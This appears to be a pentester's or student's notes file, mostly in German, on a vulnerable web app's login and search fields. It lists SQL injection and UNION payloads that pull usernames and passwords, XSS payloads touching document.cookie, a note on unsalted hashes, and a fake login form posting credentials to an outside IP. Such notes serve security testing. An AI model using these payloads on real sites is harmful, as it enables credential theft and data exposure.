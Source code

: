 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird wird. Hierdurch bekommt man alle User Zurück geliefert 
anstatt nur einen mit einer spezifischen ID.
Union Attack __%' UNION SELECT passw FROM Users #__ in Suchfeld
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata

# Cross-Site Scripting
- Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>

# Brute-force attack

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
```html
<h3>Please login to proceed</h3> <form action=http://192.165.159.122>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Login"></br>
```
